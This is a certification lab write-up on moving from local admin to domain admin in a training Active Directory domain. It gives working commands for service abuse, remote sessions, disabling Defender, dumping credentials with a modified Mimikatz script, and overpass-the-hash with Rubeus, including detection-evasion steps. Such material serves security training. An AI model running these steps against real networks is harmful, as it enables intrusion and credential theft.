 ```yaml
---
title: Active Directory (AD) | Exploiting Local Admin to Domain Admin
date: 2024-07-01 00:00:00
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: This topic covers the steps and techniques involved in leveraging local administrator access on machines
---
```


![Result](/img/crtp/result10.png){: width="972" height="589" }

## **Step 1: Check for Privilege Escalation Paths**
**Tools Used:** PowerView. This step ensures you can escalate your privileges on the current machine to gain local admin rights. Start by checking for any privilege escalation paths. If any services can be abused, add your domain user to the local admin group.

The Invoke-AllChecks function gathers information on the Active Directory environment, accessible network shares, local administrators, active user sessions, domain trust relationships, and services permissions to aid in network reconnaissance

```bash
Invoke-AllChecks
```
![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_

## **Step 2: Abusing Services**
**Tools Used:** PowerView. After running Step 1, you will have identified a few services that can be abused. We can exploit these services to add our current domain user to the local Administrators group. 

Adding a user to the local Administrators group allows them to perform administrative tasks such as installing software, changing system settings, and accessing all files on the system, which can be crucial for further exploitation and maintaining control over the machine.

```bash
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Now, our user is a local admin !_


## **Step 3: [Lateral Movement] Identifying Additional Machines for Local Admin Access**

**Tools Used:** Find-PSRemotingLocalAdminAccess.ps1. After gaining local admin rights on one machine, identifying other machines where you have local admin access helps in expanding your control over the network. This can give you access to more resources, data, or higher-privilege accounts. So, you have to identify any computers/machines in the domain where our user has local administrative access.

```bash
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
_Userx has administrative access on dcorp-adminsrv and on the student machine_

## **Step 4: [Lateral Movement] Exploiting Remote Access**

After identifying machines with local admin access, we can remotely connect using tools like winrs and PowerShell Remoting (Enter-PSSession) because local admin rights grant us the necessary permissions to access and control these machines remotely over the network.

### winrs Remoting
```bash
winrs -r:dcorp-adminsrv cmd
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

### PowerShell Remoting
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## **Step 5: Derivative Local Admin**

Utilize derivative local admin access gained in Step 3 and 4 to identify machines with active domain admin sessions. Exploit these sessions to escalate privileges and potentially gain Domain Admin access, utilizing techniques such as token stealing or credential extraction.

**Tools Used:** Invoke-Mimi. To dump hashes or extract credentials from dcorp-adminsrv, we will use Invoke-Mimi.

### Disable Windows Defender on the target machines
```bash
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

### Disable AMSI on the target machines
```bash
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

### Using Dot Sourcing in PowerShell Scripts
In environments with strict security policies or when PowerShell operates in Constrained Language Mode, dot sourcing (.) scripts like Invoke-Mimi.ps1 may be restricted.

So, we must modify Invoke-Mimi.ps1 to include the function call in the script itself and transfer the modified script (Invoke-MimiEx.ps1) to the target server. Here is step-by-step :

- Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx.ps1. 
- Open Invoke-MimiEx.ps1 in PowerShell ISE (Right click on it and click Edit). 
- Add "Invoke-Mimi -Command '"sekurlsa::ekeys"' " (without quotes) to the end of the file.
- Copy the Invoke-MimiEx.ps1 to the target machines
```bash
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
- Run the modified mimikatz script
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local'
.\Invoke-MimiEx.ps1
```
![Result](/img/crtp/result13.png){: width="972" height="589" }

Here we find the credentials of the srvadmin, appadmin and websvc users. 


## **Step 6: OverPass-the-Hash | Obtaining TGT using Rubeus**

### Understanding Ticket Granting Tickets (TGTs)
Ticket Granting Tickets (TGTs) are a fundamental part of the Kerberos authentication protocol. When a user successfully authenticates to the Key Distribution Center (KDC), they receive a TGT. This TGT is a form of credential that allows the user to request service tickets (TGS) for accessing specific network services and resources within the Kerberos realm. It contains encrypted information about the user's identity, session key, and other relevant data required for subsequent authentication.

### Steps to Obtain TGT with Rubeus

- Encode arguments (like asktgt) using tools such as ArgSplit.bat to ensure secure transmission and evasion of detection.
![Result](/img/crtp/result11.png){: width="972" height="589" }
-  Use Loader.exe to initiate Rubeus with the encoded arguments (/args %Pwn%) to request a TGT. 
```bash
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:srvadmin
/aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
/opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
![Result](/img/crtp/result12.png){: width="972" height="589" }
- This retrieves a TGT for the specified user (srvadmin), enabling further operations within the Kerberos realm
- The new process that starts has srvadmin privileges. Check if srvadmin has admin privileges on any other machine.

